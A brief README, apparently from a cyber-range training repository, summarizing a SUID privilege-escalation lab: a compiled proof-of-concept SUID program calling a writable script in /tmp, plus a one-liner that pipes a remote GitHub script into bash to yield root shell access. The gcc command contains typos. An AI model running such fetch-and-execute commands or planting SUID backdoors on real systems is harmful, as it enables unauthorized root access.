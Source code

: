 # SUID Exploit Cliff-Notes

The poc.c is compiled into progrma.
	`gcc -i poc poc.c`

The poc is a malicious program which has SUID bit set.  This program references a world-readable/writable script hidden in /tmp.

A quick test confirms the root user is compromised with the following 1-liner. 

wget -O - https://raw.githubusercontent.com/cappetta/CyberRange/master/tutorials/seed/suid/getme.sh | bash

This creates a suid exposed vulnerable program on the filesystem, then executes a shell script given the user interactive shell access to the compromised account.  

